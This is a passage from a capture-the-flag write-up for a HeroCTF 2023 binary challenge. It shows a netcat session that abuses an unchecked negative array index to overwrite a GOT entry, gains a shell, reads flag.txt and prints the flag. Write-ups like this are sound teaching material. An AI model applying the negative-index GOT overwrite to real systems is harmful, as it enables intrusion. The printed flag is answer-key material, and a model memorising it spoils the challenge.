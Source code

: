 But we can see a difference here:
```
LOCAL:  [LOCAL TIME] 2023-05-13 20:29:38
REMOTE: [LOCAL TIME] 2023-05-13 18:32:16
```

We are not on the same timezone: for exmploiting in remote from France, we need to substract one hour for our local exploit.

```bash
$ nc static-03.heroctf.fr 5000
========== Welcome to your appointment book. ==========

[LOCAL TIME] 2023-05-13 18:38:47

***** Select an option *****
1) List appointments
2) Add an appointment
3) Exit

Your choice: 2
[+] Enter the index of this appointment (0-7): -5
[+] Enter a date and time (YYYY-MM-DD HH:MM:SS): 1970-02-18 14:27:02
[+] Converted to UNIX timestamp using local timezone: 4199222
[+] Enter an associated message (place, people, notes...): DON'T CARE

***** Select an option *****
1) List appointments
2) Add an appointment
3) Exit

Your choice: 3

[+] Good bye!
id
uid=1000(player) gid=1001(player) groups=1001(player),1000(ctf)
ls
appointment_book
entry.sh
flag.txt
cat flag.txt
Hero{Unch3ck3d_n3g4t1v3_1nd3x_1nt0_G0T_0v3wr1t3_g03s_brrrrrr}
```

And here we go!

### Flag

```
Hero{Unch3ck3d_n3g4t1v3_1nd3x_1nt0_G0T_0v3wr1t3_g03s_brrrrrr}
```
